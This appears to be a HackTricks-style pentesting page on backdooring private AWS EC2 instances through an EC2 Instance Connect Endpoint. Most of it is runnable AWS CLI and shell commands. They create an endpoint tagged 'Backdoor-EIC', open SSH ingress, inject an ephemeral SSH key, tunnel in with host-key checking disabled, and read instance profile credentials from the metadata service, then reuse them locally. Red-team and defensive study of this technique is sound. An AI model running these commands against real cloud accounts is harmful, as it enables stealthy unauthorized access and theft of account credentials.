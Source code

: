 # AWS - EC2 Instance Connect Endpoint backdoor + ephemeral SSH key injection

{{#include ../../../../banners/hacktricks-training.md}}

Abuse EC2 Instance Connect Endpoint (EIC Endpoint) to gain inbound SSH access to private EC2 instances (no public IP/bastion) by:
- Creating an EIC Endpoint inside the target subnet
- Allowing inbound SSH on the target SG from the EIC Endpoint SG
- Injecting a short‑lived SSH public key (valid ~60 seconds) with `ec2-instance-connect:SendSSHPublicKey`
- Opening an EIC tunnel and pivoting to the instance to steal instance profile credentials from IMDS

Impact: stealthy remote access path into private EC2 instances that bypasses bastions and public IP restrictions. The attacker can assume the instance profile and operate in the account.

## Requirements
- Permissions to:
  - `ec2:CreateInstanceConnectEndpoint`, `ec2:Describe*`, `ec2:AuthorizeSecurityGroupIngress`
  - `ec2-instance-connect:SendSSHPublicKey`, `ec2-instance-connect:OpenTunnel`
- Target Linux instance with SSH server and EC2 Instance Connect enabled (Amazon Linux 2 or Ubuntu 20.04+). Default users: `ec2-user` (AL2) or `ubuntu` (Ubuntu).

## Variables
```bash
export REGION=us-east-1
export INSTANCE_ID=<i-xxxxxxxxxxxx>
export SUBNET_ID=<subnet-xxxxxxxx>
export VPC_ID=<vpc-xxxxxxxx>
export TARGET_SG_ID=<sg-of-target-instance>
export ENDPOINT_SG_ID=<sg-for-eic-endpoint>
# OS user for SSH (ec2-user for AL2, ubuntu for Ubuntu)
export OS_USER=ec2-user
```

## Create EIC Endpoint
```bash
aws ec2 create-instance-connect-endpoint \
  --subnet-id "$SUBNET_ID" \
  --security-group-ids "$ENDPOINT_SG_ID" \
  --tag-specifications 'ResourceType=instance-connect-endpoint,Tags=[{Key=Name,Value=Backdoor-EIC}]' \
  --region "$REGION" \
  --query 'InstanceConnectEndpoint.InstanceConnectEndpointId' --output text | tee EIC_ID

# Wait until ready
while true; do
  aws ec2 describe-instance-connect-endpoints \
    --instance-connect-endpoint-ids "$(cat EIC_ID)" --region "$REGION" \
    --query 'InstanceConnectEndpoints[0].State' --output text | tee EIC_STATE
  grep -q 'create-complete' EIC_STATE && break
  sleep 5
done
```

## Allow traffic from EIC Endpoint to target instance
```bash
aws ec2 authorize-security-group-ingress \
  --group-id "$TARGET_SG_ID" --protocol tcp --port 22 \
  --source-group "$ENDPOINT_SG_ID" --region "$REGION" || true
```

## Inject ephemeral SSH key and open tunnel
```bash
# Generate throwaway key
ssh-keygen -t ed25519 -f /tmp/eic -N ''

# Send short-lived SSH pubkey (valid ~60s)
aws ec2-instance-connect send-ssh-public-key \
  --instance-id "$INSTANCE_ID" \
  --instance-os-user "$OS_USER" \
  --ssh-public-key file:///tmp/eic.pub \
  --region "$REGION"

# Open a local tunnel to instance:22 via the EIC Endpoint
aws ec2-instance-connect open-tunnel \
  --instance-id "$INSTANCE_ID" \
  --instance-connect-endpoint-id "$(cat EIC_ID)" \
  --local-port 2222 --remote-port 22 --region "$REGION" &
TUN_PID=$!; sleep 2

# SSH via the tunnel (within the 60s window)
ssh -i /tmp/eic -p 2222 "$OS_USER"@127.0.0.1 -o StrictHostKeyChecking=no
```

## Post-exploitation proof (steal instance profile credentials)
```bash
# From the shell inside the instance
curl -s http://169.254.169.254/latest/meta-data/iam/security-credentials/ | tee ROLE
curl -s http://169.254.169.254/latest/meta-data/iam/security-credentials/$(cat ROLE)
```

Example output (truncated):
```json
{
  "Code": "Success",
  "AccessKeyId": "ASIA...",
  "SecretAccessKey": "w0G...",
  "Token": "IQoJ...",
  "Expiration": "2025-10-08T04:09:52Z"
}
```

Use the stolen creds locally to verify identity:
```bash
export AWS_ACCESS_KEY_ID=<AccessKeyId>
export AWS_SECRET_ACCESS_KEY=<SecretAccessKey>
export AWS_SESSION_TOKEN=<Token>
aws sts get-caller-identity --region "$REGION"
# => arn:aws:sts::<ACCOUNT_ID>:assumed-role/<InstanceRoleName>/<InstanceId>
```

## Cleanup
```bash
# Revoke SG ingress on the target
aws ec2 revoke-security-group-ingress \
  --group-id "$TARGET_SG_ID" --protocol tcp --port 22 \
  --source-group "$ENDPOINT_SG_ID" --region "$REGION" || true

# Delete EIC Endpoint
aws ec2 delete-instance-connect-endpoint \
  --instance-connect-endpoint-id "$(cat EIC_ID)" --region "$REGION"
```

> Notes
> - The injected SSH key is only valid for ~60 seconds; send the key right before opening the tunnel/SSH.
> - `OS_USER` must match the AMI (e.g., `ubuntu` for Ubuntu, `ec2-user` for Amazon Linux 2).
